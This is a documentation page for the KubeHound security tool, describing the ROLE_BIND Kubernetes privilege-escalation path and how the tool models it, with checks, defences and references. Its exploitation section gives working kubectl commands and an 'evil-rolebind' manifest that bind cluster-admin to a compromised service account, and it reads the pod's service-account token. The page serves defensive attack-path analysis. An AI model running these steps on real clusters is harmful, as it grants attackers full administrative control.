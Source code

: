 ```yaml
---
title: ROLE_BIND
---
```


<!--
id: ROLE_BIND
name: "Create role binding"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege Escalation
-->


# ROLE_BIND

A role that grants permission to create or modify `(Cluster)RoleBindings` can allow an attacker to escalate privileges on a compromised user.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../entities/permissionset.md)  | [PermissionSet](../entities/permissionset.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details


### TL;DR
An attacker with sufficient permission can create a `RoleBinding` with the default existing admin `ClusterRole` and bind it to a compromised user. By creating this `RoleBinding`, the compromised user becomes highly privileged, and can execute privileged operations in the cluster (reading secrets, creating pods, etc.).

To exploit the attack we need to:
* Be able to `create` (verb) a `clusterolebinding` or `rolebinding` (resource).
* Be able to `bind` (verb) a `clusterrole` or a `role` (resource).

### RBAC

To fully understand the attacks we need to know the basic around RBAC in kubernetes:
* Roles and role bindings must exist in the same namespace.
* Role bindings can exist in separate namespaces to service accounts.
* Role bindings can link cluster roles, but they only grant access to the namespace of the role binding.
* Cluster role bindings link accounts to cluster roles and grant access across all resources.
* Cluster role bindings can not reference roles.

In KubeHound we added an abstraction called PermissionSet which is an object that link the RoleBinding and the Role directly (in one object). When creating every PermissionSet all the above rules are enforced to make sure the scope is valid.

In the bind attack there is 2 levels to checks:
* The PermissionSet itself (rolebinding/role) which will grant the role to designated subject 
* The actual verbs allowed by the PermissionSet. We are looking for the verbs `create` and `bind`.

To test all usecases, we created unit tests for each:
* CRB_CR: regroup all the PermissionSets with **C**luster**R**ole**B**inding / **C**luster**R**ole.
* RB_CR-SA: regroup all the PermissionSets with **R**ole**B**inding/**C**luster**R**ole for a **S**ervice **A**ccount.
* RB_R-SA: regroup all the PermissionSets with **R**ole**B**inding/**R**ole for a **S**ervice**A**ccount.
* RB_R-UG: regroup all the PermissionSets with **R**ole**B**inding/**R**ole for **U**sers/**G**roups.

![Summarizing RBAC attacks using the bind verb](../../images/ROLE_BIND_overall_view.png)

But, the PermissionSet object is created only if a role is linked by a rolebinding, this imply:
* **If a role is not linked by a role binding, no PermissionSet will be created in the graph.** Therefore this role can not be used in any attack paths (there is no direct role abstraction)
* **All the PermissionSet are created from at the ingestion time.** Currently no attacks create new assets in the graph. It means only the "existing" PermissionSet can be used in the attack path generation.

So some of the usecases are not fully covered:
| Usecase #| Coverage | Description| 
|------|-------|---------|
| 1 | Full | N/A |
| 2 | Limited | All the PermissionSet that are not namespaced are linked to a single specific namespace. Yet, this attack allow to bind a role to any namespace. Therefore, we would need to create additional PermissionSet for every namespace if we want to fully cover the attack|
| 3 | Full | N/A |
| 4 | None | To cover this usecase, we need duplicate a non-namespaced PermissionSet to a namespace one. |


### Edge case

If a PermissionSet is linked by a RoleBinding but allows you to `create` a `ClusterRoleBinding` and `bind` a `ClusterRole`, even if you "technically" have the right to do so (by asking the `can-i` API from Kubernetes), you will not be able to escalate the privilege.

Asking the API if I can create/bind:

```bash
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i create clusterrolebindin
Warning: resource 'clusterrolebindings' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i bind clusterrole
Warning: resource 'clusterroles' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
```

Exploiting the attack fails:

```bash
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail -n default
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
```

### Tests User/Group RBAC in kind cluster

Users and groups have been created in the Kind Cluster. Each user have it is own kubeconfig file. They are located in the `test/setup/test-cluster/RBAC` folder:

* KUBECONFIG=test/setup/test-cluster/RBAC/user-rb-r-crb-cr-fail/kubeconfig kubectl auth can-i bind clusterrole


## Prerequisites

Ability to interact with the K8s API with a role allowing modify or create access to `(Cluster)RoleBindings`.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/ROLE_BIND.yaml).

## Checks

Installing required binary (jq / curl / kubectl)
```bash
ARCH=$(arch | sed s/aarch64/arm64/ | sed s/x86_64/amd64/)
apt update && apt install -y curl jq && curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl" && chmod +x kubectl
```

Simply ask kubectl:
```bash
./kubectl auth can-i create clusterrolebinding
./kubectl auth can-i create rolebinding
./kubectl auth can-i bind role
./kubectl auth can-i bind clusterrole
```

Note: in one edge case (describe earlier), using `can-i` Kubernetes API is not enough.

## Exploitation

Create the `(Cluster)RoleBinding` definition as below:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: evil-rolebind
  namespace: default
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: ServiceAccount
    name: <compromised user>
    namespace: default
```

Create the binding via kubectl:

```bash
kubebctl apply -f evil-rolebind-spec.yaml
```

Retrieving service account information (needed to bind the role):

```bash
JWT=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
SAS=$(jq -R 'split(".") | .[1] | @base64d | fromjson' <<< "$JWT" | jq -r '."kubernetes.io"|.namespace,.serviceaccount.name' | paste -s -d ":")
```

Exploiting the attack using only the kubectl command:

```bash
./kubectl create rolebinding rbr-admin --role=admin --serviceaccount=$SAS -n default
./kubectl create rolebinding r-cr-admin --clusterrole=cluster-admin --serviceaccount=$SAS -n default
./kubectl create clusterrolebinding cr-cr-admin --clusterrole=cluster-admin --serviceaccount=$SAS
```

Note: the `admin` is not a standard role, it has been added manually in the kind cluster.

## Defences

### Monitoring

+ Monitor anomalous access to the K8s authorization API including creating privileged `(Cluster)RoleBinding` from with a pod, unusual `User-Agent` headers and other outliers.

### Implement least privilege access

Creating `(Cluster)RoleBinding` is a very powerful privilege and should not be required by the majority of users. Use an automated tool such a KubeHound to search for any risky permissions and users in the cluster and look to eliminate them.

## Calculation

+ [RoleBind](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind.go)
+ [RoleBindNamespace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind_namespace.go)

## References:

+ [Official Kubernetes Documentation:Using RBAC Authorization](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#rolebinding-and-clusterrolebinding)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)
+ [Getting into a bind with Kubernetes](https://raesene.github.io/blog/2021/01/16/Getting-Into-A-Bind-with-Kubernetes/)
+ [Official Kubernetes Documentation: Bind verb](https://kubernetes.io/docs/concepts/security/rbac-good-practices/#bind-verb)
+ [Mixing Kubernetes Roles, RoleBindings, ClusterRoles, and ClusterBindings](https://octopus.com/blog/k8s-rbac-roles-and-bindings)
